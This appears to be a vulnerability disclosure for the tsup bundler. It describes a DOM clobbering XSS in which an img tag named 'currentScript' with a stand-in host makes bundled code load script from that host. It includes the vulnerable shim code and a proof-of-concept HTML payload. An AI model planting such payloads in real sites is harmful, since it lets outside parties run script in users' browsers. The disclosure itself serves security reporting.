 ## tsup

### Meta

+ Library: tsup
+ Stars: 8.9K
+ Payload: ```<img src="https://xxx.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Security Policy: Requested
+ Foundby: TheHulk

### Library

https://github.com/egoist/tsup

### Vulnerable Code Snippet

```javascript
// node_modules/tsup/assets/cjs_shims.js
var getImportMetaUrl = () => typeof document === "undefined" ? new URL(`file:${__filename}`).href : document.currentScript && document.currentScript.src || new URL("main.js", document.baseURI).href;
var importMetaUrl = /* @__PURE__ */ getImportMetaUrl();
```

## PoC

as an example, bundle the js below.

```javascript
var s = document.createElement('script')
s.src = import.meta.url + 'extra.js'
document.head.append(s)
```

example html:

<!-- ```html
<img name="currentScript" src="//xxx.xxx.xxx"></img>
<script src="dist/index.js"></script>
``` -->

```html
<!--Library-->
<script src="dist/index.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="//localhost:9999">
<!--Payload-->
```

